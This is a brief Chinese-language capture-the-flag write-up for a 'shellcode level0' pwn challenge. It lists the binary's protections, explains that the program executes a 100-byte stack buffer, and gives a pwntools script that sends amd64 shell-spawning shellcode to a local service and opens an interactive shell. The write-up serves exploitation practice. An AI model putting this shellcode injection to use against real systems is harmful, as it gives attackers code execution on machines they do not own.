 # shellcode level0

## 文件分析

下载`shellcode_level0`, NX off, PIE on, Canary on, RELRO full  
ghidra分析为64位程序

## 解题思路

程序中直接执行rbp-0x70的地址，且给了100B的空间，填一个shellcode即可

**注意要在运行asm时加上参数`arch='amd64'`**，缺省以i386架构产生，会报错

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 33151)
shc = asm(shellcraft.amd64.sh(), arch='amd64')
sh.sendline(shc)
sh.interactive()
```

Done.
